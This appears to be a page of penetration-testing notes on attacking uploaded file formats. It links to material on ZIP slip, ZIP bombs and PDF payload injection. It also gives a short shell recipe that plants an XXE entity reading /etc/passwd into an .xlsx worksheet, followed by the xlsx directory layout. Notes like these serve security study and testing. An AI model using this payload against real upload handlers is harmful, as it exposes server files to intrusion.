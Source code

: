 ## ZIP Archives

> Vulnerabilities in this category also applies to `.apk`, `.jar`, `.pptx`, `.docx` and `.xlsx` files

ZIP Slip (path traversal rewrite), ZIP Symlinks, ZIP bombs, and mitigations: https://trebledj.me/posts/attack-of-the-zip/

ZIP structure: https://blog.ostorlab.co/zip-packages-exploitation.html
## PDF

Attacking a file generator: [[XSS#Server-side]]

[Injecting payload directly into the PDF](https://portswigger.net/research/portable-data-exfiltration)

## Microsoft file formats

In addition to ZIP-vulnerabilities, these files can be exploited with XXE. 

For a given `file.xlsx`:

```
unzip file.xlsx -d payload
cd payload
echo '<!DOCTYPE foo [ <!ELEMENT foo ANY ><!ENTITY xxe PUBLIC "lol" "file:///etc/passwd" >]>' >> xl\worksheets\sheet1.xml
zip -0 -r payload.xlsx .
# debug
# file payload.xlsx
# zipinfo -1 payload.xlsx
```

XLSX files typically use DEFLATE and LZMA compression algorithms. MIME type checkers also look for the directory structure inside a file to distinguish ZIP from XLSX:
```
|-- [Content_Types].xml
|-- _rels
|    |--.rels
|-- docProps
|    |-- core.xml
|    |-- app.xml
|-- xl
|    |-- _rels
|    |    |-- workbook.xml.rels
|    |-- workbook.xml
|    |-- worksheets
|    |    |-- sheet1.xml
```
